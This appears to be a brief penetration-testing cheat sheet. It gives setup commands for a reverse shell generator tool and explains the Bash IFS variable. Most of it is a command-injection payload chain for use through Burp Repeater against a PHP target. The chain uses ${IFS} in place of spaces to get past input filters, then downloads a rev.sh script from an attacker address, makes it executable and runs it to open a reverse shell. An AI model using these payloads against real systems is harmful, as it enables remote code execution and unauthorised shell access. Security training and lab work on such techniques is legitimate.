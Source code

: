 

```shell title:"reverse shell generator"9
https://github.com/0dayCTF/reverse-shell-generator

wget https://github.com/0dayCTF/reverse-shell-generator/archive/refs/heads/main.zip
unzip main.zip
cd reverse-shell-generator-main
docker build -t reverse_shell_generator .
docker run -d -p 8090:80 reverse_shell_generator

http://127.0.0.1:8090
```


```shell title:"Bash IFS - Reverse Shell - Burp Repeater - PHP"
- IFS Internal Field Separator
- The special shell variable _IFS_ determines how Bash recognizes word boundaries while splitting a sequence of character strings.
- The default value of _IFS_ is a three-character string comprising a space, tab, and newline

ls${IFS}-la
ping${IFS}127.0.0.1
wget${IFS}http://10.10.10.10:8888/rev.sh
chmod${IFS}777{IFS}rev.sh
bash${IFS}rev.sh

```





